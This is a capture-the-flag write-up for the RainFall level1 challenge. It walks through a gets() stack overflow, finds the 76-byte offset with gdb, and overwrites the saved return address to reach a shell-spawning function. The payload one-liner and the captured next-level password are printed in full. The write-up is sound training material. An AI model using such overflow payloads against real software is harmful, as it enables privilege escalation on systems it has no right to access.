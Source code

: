 # level1

We can first see that the [NX-bit](https://en.wikipedia.org/wiki/NX_bit) is disabled, compared to the previous level.

The program take no parameters but wait for input once launched. It prints the string passed in input and segfault with a large string :

```bash
level2@RainFall:~$ ./level2 
qwerty
qwerty
level2@RainFall:~$ ./level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

By looking at the functions, we can see that a function `run` is not called, and contains a call of `system` with string `/bin/sh` as parameter.

```gdb
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x08048444  run
0x08048480  main
...

(gdb) disas run
Dump of assembler code for function run:
    ...
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   ...
End of assembler dump.

(gdb) x/s 0x8048584
0x8048584:  "/bin/sh"
```

By looking at the assembly code, we can see that the main function only calls `gets`, a function known to be [vulnerable to buffer overflow](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351).

To find the buffer length, we run the program with `gdb` with a breakpoint after the `gets` call.

```gdb
(gdb) disas main
...
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) b *main+21
Breakpoint 1 at 0x8048495
```

We run the program and watch the stack after the execution of the function :

```bash
(gdb) r
Starting program: /home/user/level1/level1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048495 in main ()
(gdb) x/24wx $esp
0xbffff6b0:     0xbffff6c0      0x0000002f      0xbffff70c      0xb7fd0ff4
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff700:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb) i f
Stack level 0, frame at 0xbffff710:
eip = 0x8048495 in main; saved eip 0x41414141
Arglist at 0xbffff708, args: 
Locals at 0xbffff708, Previous frame's sp is 0xbffff710
Saved registers:
ebp at 0xbffff708, eip at 0xbffff70c
```

We can see that the value of `$eip` is `0x41414141` at the address `0xbffff70c`. We can also see that the buffer begin at the address `0xbffff6c0`. We can now calculate the length we need to fill before overriding the `$eip` address :

```bash
(gdb) p/d 0xbffff70c - 0xbffff6c0
$5 = 76
```

We can test the value of `$eip` with a custom input :

```bash
Starting program: /home/user/level1/level1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x8048495 in main; saved eip 0x42424242
 Arglist at 0xbffff708, args: 
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c
```

We need to replace the `BBBB` by the address of the `run` function that is `0x08048444`. We need to pipe the malicious string into the program because otherwise it will interpret it as ASCII value.

We save the malicious string in a file so we can execute it with `gdb` :

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x08\x04\x84\x44'" > /tmp/exploit1
...
(gdb) r < /tmp/exploit1
Starting program: /home/user/level1/level1 < /tmp/exploit1

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x8048495 in main; saved eip 0x44840408
 Arglist at 0xbffff708, args: 
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c
```

We can see that the saved `eip` inversed, due to the indianess. We invert the malicious string and we are now in the `run` function, but the program end without having a shell :

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/exploit1 
level1@RainFall:~$ ./level1 < /tmp/exploit1
Good... Wait what?
Segmentation fault (core dumped)
```

With `cat` command, we will main `stdin` open after the `/bin/sh` is executed. We can see that we are now `level2` user and we can read the password file :

```bash
level1@RainFall:~$ (cat /tmp/exploit1;cat) | ./level1 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Get the flag :

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/exploi1
level1@RainFall:~$ (cat /tmp/exploit1;cat) | ./level1
Good... Wait what?
$ whoami
level2
$ cd ../level2
$ cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

